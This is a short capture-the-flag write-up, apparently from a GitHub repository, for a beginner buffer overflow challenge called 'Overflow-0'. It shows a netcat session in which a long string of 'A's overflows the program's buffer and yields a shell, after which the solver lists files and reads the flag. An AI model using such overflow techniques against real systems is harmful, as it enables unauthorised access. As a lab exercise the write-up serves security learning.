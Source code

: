 [< Back to All CTFs](https://github.com/KrisLloyd/Python/tree/master/CTF#ctf-solves)

[< Back to BIT Olympics CTF](https://github.com/KrisLloyd/Python/tree/master/CTF#bit-olymipcs-march-2020)
***

# Overflow-0

![Overflow-0](Overflow0.PNG)

### Challenge:
##### You shouldn't need hehlp with this one
##### nc myctf.ca 10005
##### 100 Points
##### Files: 
* [coffer-overflow-0](coffer-overflow-0)
* [coffer-overflow-0.c](coffer-overflow-0.c)

### Solve:

The challenge provided 2 files and a port on a server. The remote end of the server I assume contained the program that was provided, however I didn't even need to open the 2 provided files.

The name of the challenge suggests a buffer overflow attack is needed to obtain the flag, so the first thing I did was to connect to the remote server and attempt to fill the buffer to cause an overflow:

```
ncat myctf.ca 10005
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```
The program's buffer was over filled, which ultimatly provided access to the shell of the host. The flag was in the root directory.

### Flag
```
flag{b0ffer_0verf10w_3asy_as_123}
```
